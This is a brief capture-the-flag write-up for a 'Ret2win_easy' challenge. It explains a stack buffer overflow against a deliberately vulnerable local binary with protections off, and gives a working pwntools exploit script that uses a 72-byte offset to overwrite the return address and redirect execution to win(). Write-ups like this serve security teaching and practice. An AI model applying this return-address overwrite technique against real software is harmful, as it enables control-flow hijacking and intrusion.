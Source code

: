 # Description:

Ret2win_easy

# Solution

According to file `vuln.c` and the name of the challenge. We know it as [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/d463e963-4dc9-4e54-a00e-1485af6436b0)

Use checksec to check various security features of executable files as bellow.

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/d2e21fb8-5d4f-4e7f-aac6-32ca4435dbcd)

With security features mostly turned off making this exploit easier.

With no PIE, address of win() address is always `0x00401156`.

The final step is to insert the required amount of bytes and overwrite the RIP register and get the point.

``` python
from pwn import *

e = ELF('./vuln')
p=process(e.path)
#gdb.attach(p, '''
#b* win + 30
#''')
winAddr = p64(e.sym['win']+8)
ofset = 72
payload = b'A'*ofset+winAddr
p.sendline(payload)
p.interactive()
```
